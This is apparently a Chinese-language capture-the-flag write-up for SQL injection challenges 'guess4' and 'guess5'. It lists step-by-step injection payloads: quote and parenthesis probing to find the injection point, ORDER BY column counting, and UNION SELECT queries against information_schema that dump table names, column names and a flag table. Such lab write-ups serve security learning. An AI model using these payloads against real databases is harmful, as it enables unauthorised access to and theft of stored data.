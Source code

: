 ```sql
```

<br>
### guess4

#### 确定注入点
直接开始测试
```sql
?id=2-1   # 显示第二条数据，其实已经证明了肯定带有引号
?id=0' or 1=1 %23 # 页面出现了报错，因为我们后面做了注释，所以如果SQL语句出错也是or前面的问题 '
?id=0') or 1=1 %23 # ok，运气很好，猜到了括号的存在，页面回显第一条数据，可以确认注入点了'

```
好的，可以直接开始得到数据的流程了

#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1') ORDER BY 3 %23  # 页面正常，显示第一条数据'
?id=1') ORDER BY 4 %23  # 页面报错，确定列数为3列'

联合查询注入
?id=0') UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据'

查询当前数据库版本和数据库名
?id=0') UNION SELECT 1,version(),database() %23    # 页面回显数据'

查询当前数据库下的所有表名
?id=0') UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_xixix' %23                #'

查询该表中所有的列名
?id=0') UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='fiag' %23                 #'

查询实际数据
?id=0') UNION SELECT 1,2,group_concat(fcag) FROM fiag %23                                      #'

```

<br>
### guess5

#### 确定注入点
直接开始测试
```sql
?id=2-1   # 第二条数据，基本确定带有单引号
?id=0' or 1=1  %23   # 页面没有报错，也没有数据显示'
?id=1' %23  # 显示了第一条数据，说明没有带有括号，如果有的话，肯定报错了'
如果是搜索型的话也不可能，因为搜索型，第二条语句肯定也会回显数据，毕竟永真
所以开始尝试用别的符号
?id=0" or 1=1  %23 # ok，回显数据，发现是使用双引号，确定了注入点开搞 "

```
好的，可以直接开始得到数据的流程了
